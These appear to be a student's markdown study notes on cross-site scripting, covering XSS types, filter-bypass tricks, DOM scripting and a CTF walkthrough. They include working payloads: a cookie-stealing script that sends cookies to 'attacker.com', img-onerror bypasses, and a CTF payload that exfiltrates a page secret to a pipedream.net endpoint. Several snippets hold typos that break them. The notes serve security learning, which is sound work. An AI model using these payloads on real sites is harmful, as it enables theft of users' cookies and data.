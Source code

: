 # XSS Client Script

## Part 1. Review
1. XSS
  - An attack in which an attacker injects malicious executable scripts into the code of a trusted application or website
  - Stored XSS: Board or DB
  - Reflected XSS: Server, GET Method, URL Transmission
  - DOM Based XSS
  - Cookie Steal
```javascript
<script>var cookieData = document.cookie;var i = new Image();i.src = "http://attacker.com" + cookieData;</script>
```

2. XSS countermeasure
* detour method
  - Mix upper and lower case </br>
  - image tag
```javascript
<img src=x oneerror = "alert(1)">
```
  - herf
```javascript
<a href="javascript"alert(1)">TEST</a>
```
  - javascript XSS < , > => ";alert(1);var+a = "
```javascript
<script> var data = "________";
```
  - input XSS => <input type = "text" value="efwe">
```javascript
<input type = "text" onmousehandler="alert(1)"
```
  - HTML special character -> HTML Entity
  - HTML Editor
    - HTML special characters replaced with HTML Entity in the parameter.
    - Distiguish available tags and make them live (Based on the white list).
    - Revived tags were filtered in the violated event handler based on black lists

## Part 2. Client Script

- Page Redirect
```javascript
<script>location.href="google.com";</script>
```
```javascript
<script>location.replace("google.com")</script>
```
- Modulate address
```javascript
<script>history.pushState(null, null, 'test')</script>
```
- DOM object contact
```javascript
document.getElement
document.getElementById('userName');
document.getElementsByClassName('card-title');
document.getElementsByClassName('card-title')[0];
// Tracking the number to pull out the information
document.getElementById('userName');.className
// Pull out the other element information
document.getElementById('userName').innerHTML;
// Tag inside information
```

## Part 3. CTF - Basic Script Practice

1. Open DevTol and check where is the location to bring out the flag information.
2. In the Console at DevTol, type the script => bring the information
```javascript
document.getElementsByNamme('info')      
```
3. In the Console at DevTol, type the script => getElements is the list, so make it specified
```javascript
document.getElementsByNamme('info')[0]
```
4. Type the Script => get the single element information
```javascript
document.getElementsByName('info')[0].placeholder
```
5. Make attack statement =>
```javascript
var secretData = document.getElementsByName('info')[0].placeholder; console.log(secretData);
```
6. Check the attack statement in the Console
7. In Burp Suite, check XSS availability
8. Type <"'>, next to username "seungho"
9. Make XSS attack statement
```javascript
"><img+src=x+onerror="alert(1)
```
10. Input the attack statement
```javascript
"><img+src=x+onerror="var+secretData=document.getElementsByName('info')[0].placeholder;console.log(secretData);
```
* To use script
```javascript
window.addEventListener('DOMContentLoaded'function(){ //execute code});
```
9-1. Make XSS attack statement
```javascript
"><script>alert(1)</script>
```
10-1. Input the attack statement
```javascript
"><script>window.addEventListener('DOMContentLoaded'function(){<img+src=x+onerror="var+secretData=document.getElementsByName('info')[0].placeholder;console.log(secretData);});</script>
```
11. Check attack
```javascript
"><img+src="https://x"+onerror="location.href='https://enjt04rx79at.x.pipedream.net/?data='%2b document.getElementsByName('info')[0].placeholder;">
```

## Part 4. XSS in Board
- iframe
```javascript
<ifram src="HTTP://~~~/mypage.php"id="tagetFrame"></iframe>
```
```javascript
<script>var tagetTag = document.getElementByID('targetFrame');var DOMData = targetTag.contentDocument;DOMData.getElementByID()</script>
```

## Part 5. Assignmnet
- Review
- CTF
